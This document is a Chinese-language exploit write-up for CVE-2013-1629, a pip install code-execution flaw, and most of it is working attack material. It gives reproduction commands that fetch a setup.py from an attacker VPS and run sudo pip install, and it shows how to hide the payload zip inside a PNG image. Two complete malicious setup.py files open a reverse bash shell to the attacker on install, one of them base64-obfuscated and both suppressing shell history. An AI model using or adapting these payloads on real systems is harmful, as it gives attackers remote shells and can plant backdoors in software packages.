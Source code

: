 # Python pip install RCE 漏洞 CVE-2013-1629

## 漏洞描述

当通过 HTTP 从 Pypi 存储库检索包时，不会检查包内容的完整性。利用这个缺陷，攻击者可以通过 `pip install` 来执行代码。

参考阅读：

- https://github.com/0x00-0x00/FakePip
- https://www.sourceclear.com/vulnerability-database/security/remote-code-execution-rce-using-pip/python/sid-2098

## 漏洞影响

```
pip < 1.3
```

## 漏洞复现

### 方式 1 FakePip

将 [setup.py](#漏洞POC) 文件下载到远程目标：

```
$ wget http://your-vps-ip/setup.py
```

在 VPS 上监听端口，在远程目标上执行命令：

```
$ mkdir fakepip
$ mv setup.py fakepip/
$ cd fakepip
# sudo /usr/bin/pip install . --upgrade --force-reinstall
```

成功获取反弹 Shell。

### 方式 2 图片马

将 [setup.py](#漏洞POC) 文件放在文件夹中并压缩命名为，选择一张图片 test.png，制作图片马：

```
$ copy /b test.png + pic.zip pic.png
```

在 VPS 上监听端口，将图片上传至公网图床，复制链接，在远程目标上执行命令：

```
$ pip install " https://<your-img-link>"
```

也将图片可以上传到 VPS，在远程目标上执行命令：

```
$ pip3 install "http://192"."168"."xx"."xxx/pic.png"
```

## 漏洞 POC

方式 1 setup.py

```python
from setuptools import setup
from setuptools.command.install import install
import base64
import os


class CustomInstall(install):
  def run(self):
    install.run(self)
    LHOST = 'localhost'  # change this
    LPORT = 13372
    
    reverse_shell = 'python -c "import os; import pty; import socket; s = socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect((\'{LHOST}\', {LPORT})); os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2); os.putenv(\'HISTFILE\', \'/dev/null\'); pty.spawn(\'/bin/bash\'); s.close();"'.format(LHOST=LHOST,LPORT=LPORT)
    encoded = base64.b64encode(reverse_shell)
    os.system('echo %s|base64 -d|bash' % encoded)


setup(name='FakePip',
      version='0.0.1',
      description='This will exploit a sudoer able to /usr/bin/pip install *',
      zip_safe=False,
      cmdclass={'install': CustomInstall})
```

方式 2 setup.py

```python
from setuptools import setup
import socket,subprocess,os
def run():
  import socket, time,pty, os
  host='{LHOST}'
  port='{LPORT}'
  s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
  s.settimeout(10)
  s.connect((host,port))
  os.dup2(s.fileno(),0)
  os.dup2(s.fileno(),1)
  os.dup2(s.fileno(),2)
  os.putenv("HISTFILE",'/dev/null')
  pty.spawn("/bin/bash")
  s.close()
run()

setup(name="FakePip", version="1.0")
```
